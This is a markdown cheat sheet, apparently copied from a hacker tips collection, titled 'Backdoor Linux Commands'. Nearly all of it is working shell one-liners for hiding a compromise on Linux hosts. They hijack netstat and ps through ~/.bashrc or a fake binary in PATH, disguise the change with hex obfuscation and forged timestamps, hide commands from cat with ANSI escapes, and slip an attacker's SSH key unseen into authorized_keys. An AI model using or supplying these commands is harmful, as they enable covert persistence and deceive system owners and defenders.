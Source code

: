 # Backdoor Linux Commands

* Credit: [https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### **Hide a Network Connection**

The trick is to hijack `netstat` and use grep to filter out our connection. This example filters any connection on port 31337 _or_ ip 1.2.3.4. The same should be done for `ss` (a netstat alternative).

**Method 1 - Hiding a connection with bash-function in \~/.bashrc**

Cut & paste this to add the line to \~/.bashrc

```
echo 'netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }' >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

Or cut & paste this for an obfuscated entry to \~/.bashrc:

```
X='netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }'
echo "eval \$(echo $(echo "$X" | xxd -ps -c1024)|xxd -r -ps) #Initialize PRNG" >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

The obfuscated entry to \~/.bashrc will look like this:

```
eval $(echo 6e65747374617428297b20636f6d6d616e64206e6574737461742022244022207c2067726570202d4676202d65203a3331333337202d6520312e322e332e343b207d0a|xxd -r -ps) #Initialize PRNG
```

### **Method 2 - Hiding a connection with a binary in $PATH**

Create a fake netstat binary in /usr/local/sbin. On a default Debian (and most Linux) the PATH variables (`echo $PATH`) lists /usr/local/sbin _before_ /usr/bin. This means that our hijacking binary /usr/local/sbin/netstat will be executed instead of /usr/bin/netstat.

```
echo -e "#! /bin/bash
exec /usr/bin/netstat \"\$@\" | grep -Fv -e :22 -e 1.2.3.4" >/usr/local/sbin/netstat \
&& chmod 755 /usr/local/sbin/netstat \
&& touch -r /usr/bin/netstat /usr/local/sbin/netstat
```

_(thank you iamaskid)_

### **Hide a process as user**

Continuing from "Hiding a connection" the same technique can be used to hide a process. This example hides the nmap process and also takes care that our `grep` does not show up in the process list by renaming it to GREP:

```
echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap  -e GREP; }' >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

### **Hide from cat**

ANSI escape characters or a simple  ([carriage return](https://www.hahwul.com/2019/01/23/php-hidden-webshell-with-carriage/)) can be used to hide from `cat` and others.

Hide the last command (example: `id`) in `~/.bashrc`:

```
echo -e "id #\\033[2K\\033[1A" >>~/.bashrc
### The ANSI escape sequence \\033[2K erases the line. The next sequence \\033[1A
### moves the cursor 1 line up.
### The '#' after the command 'id' is a comment and is needed so that bash still
### executes the 'id' but ignores the two ANSI escape sequences.
```

Note: We use `echo -e` to convert `\\033` to the ANSI escape character (hex 0x1b).

Adding a  (carriage return) goes a long way to hide your ssh key from `cat`:

```
echo "ssh-ed25519 AAAAOurPublicKeyHere....blah x@y"$'\r'"$(<authorized_keys)" >authorized_keys
### This adds our key as the first key and 'cat authorized_keys' won't show
### it. The $'\r' is a bash special to create a \r (carriage return).
```
